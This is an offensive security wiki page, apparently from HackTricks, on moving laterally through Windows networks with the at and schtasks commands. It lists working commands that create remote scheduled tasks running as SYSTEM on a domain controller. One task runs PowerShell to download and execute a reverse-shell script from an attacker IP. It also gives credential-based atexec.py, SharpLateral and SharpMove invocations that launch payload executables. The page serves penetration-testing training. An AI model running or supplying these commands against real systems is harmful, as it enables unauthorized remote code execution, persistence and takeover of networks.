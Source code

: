# AtExec / SchtasksExec

{{#include ../../banners/hacktricks-training.md}}

## How Does it works

At allows to schedule tasks in hosts where you know username/(password/Hash). So, you can use it to execute commands in other hosts and get the output.

```
At \\victim 11:00:00PM shutdown -r
```

Using schtasks you need first to create the task and then call it:

```bash
schtasks /create /n <TASK_NAME> /tr C:\path\executable.exe /sc once /st 00:00 /S <VICTIM> /RU System
schtasks /run /tn <TASK_NAME> /S <VICTIM>
```

```bash
schtasks /create /S dcorp-dc.domain.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "MyNewtask" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/InvokePowerShellTcp.ps1''')'"
schtasks /run /tn "MyNewtask" /S dcorp-dc.domain.local
```

You can use **Impacket's `atexec.py`** to execute commands on remote systems using the AT command. This requires valid credentials (username and password or hash) for the target system.

```bash
atexec.py 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami
```

You can also use [SharpLateral](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName
```

You can use [SharpMove](https://github.com/0xthirteen/SharpMove):

```bash
SharpMove.exe action=taskscheduler computername=remote.host.local command="C:\windows\temp\payload.exe" taskname=Debug amsi=true username=domain\\user password=password
```

More information about the [**use of schtasks with silver tickets here**](../active-directory-methodology/silver-ticket.md#host).

{{#include ../../banners/hacktricks-training.md}}



